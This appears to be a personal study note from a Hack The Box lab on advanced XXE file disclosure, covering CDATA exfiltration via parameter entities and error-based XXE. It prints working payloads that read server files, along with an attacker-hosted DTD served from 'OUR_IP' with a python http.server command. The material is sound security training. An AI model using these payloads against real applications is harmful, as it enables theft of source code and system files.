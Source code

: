 # 🦑 Advanced File Disclosure

In some cases, the web application may not output any input values in some instances, so we may try to force it through errors.

### Advanced Exfiltration with CDATA

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

We have to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD

```xml
<!ENTITY joined "%begin;%file;%end;">
```

```shell-session
ElFelixi0@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
ElFelixi0@htb[/htb]$ python3 -m http.server 8000
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

<figure><img src="../../../../.gitbook/assets/image (1435).png" alt=""><figcaption></figcaption></figure>

### Error Based XXE

If the the web application does not write any output, we would have to look for displays runtime errors (e.g., PHP errors) and see if the app does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.

Let's say we send malformed XML data to the app:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files

To exploit this we need to host a DTD file that contains the following payload ->

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error.

Then we just need to call our hosted DTD script ->

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**_

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
